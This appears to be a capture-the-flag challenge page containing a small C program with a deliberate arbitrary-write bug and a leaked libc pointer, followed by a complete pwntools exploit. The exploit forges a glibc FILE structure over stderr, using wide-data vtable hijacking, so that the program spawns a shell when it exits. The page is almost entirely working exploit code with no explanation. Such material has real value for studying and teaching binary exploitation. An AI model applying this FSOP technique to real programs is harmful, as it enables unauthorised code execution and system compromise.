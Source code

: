 ```c
{
    char buf[64];
	printf("%s", msg);
	fgets(buf,64,stdin);
	return strtoul(buf,0,10);
}
int main()
{
    uint64_t choice;
    uint64_t addr;
    uint64_t size;
	setup();
	fake();
	printf("libc stdout leak: %p\n", stdout);
	while(1)
	{
		puts("1. write data to addr");
		puts("2. exit");
		choice = getint("choice> ");
		if (choice == 2)
			break;
		else if (choice == 1)
		{
			addr = getint("address> ");
			size = getint("size> ");
			printf("data> ");
			fread((void *)addr,size,1,stdin);
		}
		else
			continue;
	}
	return(0);
}
```
```py
from pwn import *
context.update(arch="amd64", os="linux")
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  if (d2):
    return p.recvuntil(d2,drop=True)
libc = ELF('libc.so.6')
p=process("./fsop")
def write(addr, data):
  sla('choice> ', '1')
  sla('> ', str(addr))
  sla('size> ', str(len(data))+'\x00')
  sa('data> ', data)
#------------change------------
fake_wide_data_addr=int(rcu('wide_data: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
fake_stderr                = FileStructure(0)
fake_stderr.flags          = u64(b'  sh\x00\x00\x00\x00')
fake_stderr._IO_write_base = 0
fake_stderr._IO_write_ptr  = 0x1
fake_stderr._wide_data     = fake_wide_data_addr
fake_stderr.vtable         = libc.symbols['_IO_wfile_jumps']
write(libc.sym['_IO_2_1_stderr_'],bytes(fake_stderr))
sla('choice> ', '2')
p.interactive()
#------------change------------
```